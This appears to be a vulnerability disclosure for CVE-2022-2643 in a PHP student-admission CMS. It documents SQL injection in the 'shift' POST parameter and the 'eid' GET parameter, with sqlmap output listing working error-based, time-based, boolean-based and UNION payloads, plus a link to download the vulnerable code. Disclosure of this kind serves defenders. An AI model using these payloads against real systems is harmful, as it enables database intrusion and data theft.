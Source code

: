 # Student-Admission CMS Sqlinjection

## Sqlinjection location 1  CVE-2022-2643
![image](https://user-images.githubusercontent.com/72059221/182750831-21ba3a4b-d99f-484b-813f-0d175d044ce4.png)
![image](https://user-images.githubusercontent.com/72059221/182750900-d34a0889-3f8b-4a3b-85a7-fddb16385258.png)


![image](https://user-images.githubusercontent.com/72059221/182751071-f90c74c8-2632-4838-ac0d-a7cf4d0ebac0.png)

#### No Check Shift  

![image](https://user-images.githubusercontent.com/72059221/182751180-d03a9653-d4b1-4dfd-b0a9-d5535f98f6bf.png)


#### Sqlmap Attack
![image](https://user-images.githubusercontent.com/72059221/182750935-56fa5112-fdcd-4bb5-ba7e-762cffaaf506.png)

```
POST parameter 'shift' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 1581 HTTP(s) requests:
---
Parameter: shift (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: sname=bbb&gname=aaa&contact=1&email=1@11.com&address=111111&class=1&shift=1 AND GTID_SUBSET(CONCAT(0x717a766b71,(SELECT (ELT(3656=3656,1))),0x7162766a71),3656)&gender=female&blgroup=abc&division=1&submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sname=bbb&gname=aaa&contact=1&email=1@11.com&address=111111&class=1&shift=1 AND (SELECT 2934 FROM (SELECT(SLEEP(5)))GVhT)&gender=female&blgroup=abc&division=1&submit=Submit
---
[09:45:36] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP 5.6.9
back-end DBMS: MySQL >= 5.6
```

## Sqlinjection location 2

![image](https://user-images.githubusercontent.com/72059221/182759099-aa9b5cf7-88eb-46ee-9978-7c9af8aff168.png)


#### Sqlmap Attack

![image](https://user-images.githubusercontent.com/72059221/182759209-d192c812-572e-42ca-b63c-4b707d1d8101.png)


```
[11:29:01] [INFO] GET parameter 'eid' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'eid' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 142 HTTP(s) requests:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: a=edit&eid=(SELECT (CASE WHEN (5950=5950) THEN 8 ELSE (SELECT 9749 UNION SELECT 6556) END))

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: a=edit&eid=8 OR (SELECT 5422 FROM(SELECT COUNT(*),CONCAT(0x717a766a71,(SELECT (ELT(5422=5422,1))),0x7170707871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: a=edit&eid=8 AND (SELECT 8871 FROM (SELECT(SLEEP(5)))pMGL)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: a=edit&eid=-4536 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x717a766a71,0x4764484f4a426d4d6147624c54525076594d64476745676f7750505173707247795a6c584d434842,0x7170707871),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[11:29:02] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.6.9, Apache 2.4.39
back-end DBMS: MySQL >= 5.0
```

## Code Download

https://www.sourcecodester.com/php/15514/online-admission-system-php-and-mysql.html

